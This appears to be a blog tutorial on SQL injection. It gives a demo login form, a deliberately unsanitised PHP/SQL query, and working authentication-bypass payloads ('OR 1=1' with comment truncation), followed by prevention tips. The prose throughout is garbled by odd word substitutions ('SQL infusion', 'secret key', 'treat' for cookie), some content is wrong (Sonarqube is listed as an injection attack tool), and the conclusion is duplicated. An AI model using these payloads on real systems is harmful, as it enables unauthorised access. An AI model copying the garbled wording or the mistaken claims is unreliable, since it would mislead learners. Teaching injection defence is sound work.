








Information is perhaps the most crucial part of a data system. Information base-controlled web applications are utilized by most associations to get information from clients, thus drawing in information security.
<!--more-->
SQL Injection is an assault that harms dynamic SQL articulations to remark out specific pieces of the assertion or affixing a condition that will consistently be valid. It exploits the plan imperfections in inadequately planned web applications to take advantage of SQL proclamations to execute vindictive SQL code.

This article will take the reader through SQL infusions and will have an unmistakable illustration of how it is carried out and how to forestall SQL infusions.

### Table of contents
- [Introduction](#introduction)
- [Understanding SQL infusion](#understanding-sql-infusion)
- [Activity: Infuse a webPage](#activity-infuse-a-webpage)
- [Other SQL infusion assault types](#other-sql-infusion-assault-types)
- [Automation devices for SQL infusion](#automation-devices-for-sql-infusion)
- [Forestall SQL infusion assaults](#forestall-sql-infusion-assaults)
- [Conclusion](#conclusion)

### Understanding SQL infusion
The sorts of assaults that can be performed utilizing SQL infusion differ contingent upon the kind of data set motor. The assault chips away at dynamic SQL articulations. 

A powerful assertion is an explanation that is created at a run time utilizing boundaries secret phrases from a web structure or URI query string.

Let's take a look at a simple login form with some basic styling:
- [get the form](https://github.com/fabulousDesigns/sql-injection-login-page)
- create 2 files: -
  1.  `index.html`
  2.  `style.css`

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <link rel="stylesheet" href="style.css" />
    <title>Demo</title>
  </head>
  <body>
    <div class="wrapper">
      <form action="loginAuth.php" method="post">
        <h4 class="logo-text">LOGIN</h4>
        <div class="line"></div>
        <input
          type="text"
          name="uName"
          class="input-group"
          placeholder="Enter your Username"
        /><input
          type="text"
          name="pass"
          class="input-group"
          placeholder="Enter your Password"
        />
        <pre> <input type="checkbox" name="chkbox"> Remember me</pre>
        <button type="submit" name="submit" class="btn">LOGIN</button>
      </form>
    </div>
  </body>
</html>
```


The above structure acknowledges the username, and password then, at that point submits them to a PHP record named `loginAuth.php`.To guarantee that clients are constantly signed in to this site, their sign-in action is saved in a treat.

By using the `POST` method,  implies that the user credentials are not shown in the URL.

**Suppose user authentication is done using the following statement:**

```sql
SELECT userName,password FROM members WHERE userName = $_POST['uName'] AND password = md5($_POST['pass']);
```

The above assertion utilizes the upsides of the `$_POST[]` cluster straightforwardly without cleaning them. Protecting the password is done through the `MD5` calculation. 

For practical purposes `sqlfiddle` will be used here in order to get a glimpse of SQL infusion. 

- The first thing you want to do in `sqlfiddle` is to create a schema
  so, on the left pane paste the SQL code below:

```sql
CREATE TABLE `members` (
  `id` INT NOT NULL AUTO_INCREMENT,
  `userName` VARCHAR(45) NOT NULL UNIQUE,
  `password` VARCHAR(45) NOT NULL,
  PRIMARY KEY (`id`));


INSERT INTO members (userName,password) VALUES ('johnD',md5('doe'));
```

- Snap the `build schema` button
  
- On the right pane enter:

  ```sql
  SELECT * FROM members;
  ```

- and run the code
  
- Your output will be :
  
- Let us say the user supplies `logan` as the userName and `5678` as the password.

The SQL code to execute would probably be :

```sql
SELECT userName,password FROM members WHERE userName = 'logan` AND password = md5('5678');
```

 By remarking out the secret key(password) part and affixing a condition that will consistently be valid we can gain access to this site and also get redirected to the dashboard. Let's say an assailant gives the following in the input fields:
1. `userName = xyz.mnp' OR 1 = 1 LIMIT 1 — ']`
2. `password = fff`

- The statement to execute would be as follows: 

```sql
SELECT userName,password FROM members WHERE userName = 'xyz.mnp' OR 1 = 1 LIMIT 1 -- ‘ ] AND password = md5('5678');
```

`Xyz.mnp` closes with a solitary statement that finishes the string quote.

 `1 = 1 LIMIT 1` This condition will limit records to just one and it will always execute as true.

`-- 'AND … `is a SQL remark that takes out the secret key part.

- Execute the above code as follows:
  
- The result is as shown below
  

### Activity: Infuse a webPage
- I have created a log-in form that we will use to employ SQL injection exploits. you can get it [here](https://github.com/fabulousDesigns/sql-injection-login-page)
- The form has some fundamental security, for example, sanitizing the username field.
- This implies our above code can't be utilized to sidestep the login. To get around that, we can rather take advantage of the secret word field.
- The outline below shows the steps that you should follow.

#### Step 1
Clone the source code in your local computer and run it with the `xammp` server.

#### step 2
Enter log-in info :
- username = 'xyzxyz'
- password = 'xyz') OR 1=1 -- ]

- click on submit

#### step 3
Access Granted -> redirected to Dashboard

If a user provides the following:

- username = `xyzxyz`
- password = `xyz') OR 1 = 1 -- ]`

The user will be redirected to the dashboard upon clicking submit button.

  **Let's take a closer look at the generated statements:**

```sql
SELECT * FROM members WHERE username = ‘xyzxyzx’ AND password = md5(‘xyz’) OR 1 = 1 — ]’);
```



### Other SQL infusion assault types
SQL Injections can accomplish more damage than just bypassing the login calculations. A portion of the assaults incorporate:
- Erasing information
- Updating information
- Embeddings information
- Executing orders on the worker that can download and introduce malignant projects like Trojans
- Sending out significant information, for example, Mastercard subtleties, email, and passwords to the assailants far off the server.
- Getting client login subtleties and so on.

### Mechanization gadgets for SQL mixture
 There are mechanized apparatuses that can assist you with playing out the assaults all the more proficiently and inside the briefest conceivable time. 

These apparatuses incorporate:
- `Sonarqube` – https://www.sonarqube.org/
- `sqlsus` – http://sqlsus.sourceforge.net/

### Forestall SQL infusion assaults
An association can take on the accompanying strategy to ensure itself against SQL Injection assaults:
1. Client info ought to never be trusted – It should consistently be disinfected before it is utilized in unique SQL explanations.
2. Put away methodology – these can exemplify the SQL explanations and treat all contributions as boundaries.
3. Arranged explanations – arranged proclamations to work by making the SQL articulation first then, at that point regarding all submitted client information as boundaries. This has no impact on the linguistic structure of the SQL articulation.
4. Standard enunciations – these can be used to recognize conceivable destructive code and kill it prior to executing the SQL clarifications.
5. Information base association client access rights – just vital access rights ought to be given to accounts used to interface with the data set. This can assist with lessening what the SQL explanations can perform on the worker.
6. Blunder messages – these ought not to uncover touchy data and the precise area a mistake happened. Straightforward custom blunder messages, for example, "Heartbroken, we are encountering specialized mistakes. The specialized group has been reached. Kindly attempt again later" can be utilized rather than show the SQL explanations that caused the mistake.

### Conclusion
SQL Injection is a sort of assault that benefits from terrible SQL articulations. SQL infusion can be utilized to sidestep login calculations, recover, addition, and refresh and erase information.

SQL infusion instruments incorporate SqlSus, SQLPing, and Sonarqube, and so on. A decent security strategy when composing SQL proclamation can assist with decreasing SQL infusion assaults.

Happy coding!

---
Peer Review Contributions by: [Dawe-Daniel](/engineering-education/authors/dawe-daniel/)A decent security strategy when composing SQL proclamation can assist with decreasing SQL infusion assaults.

Happy coding!
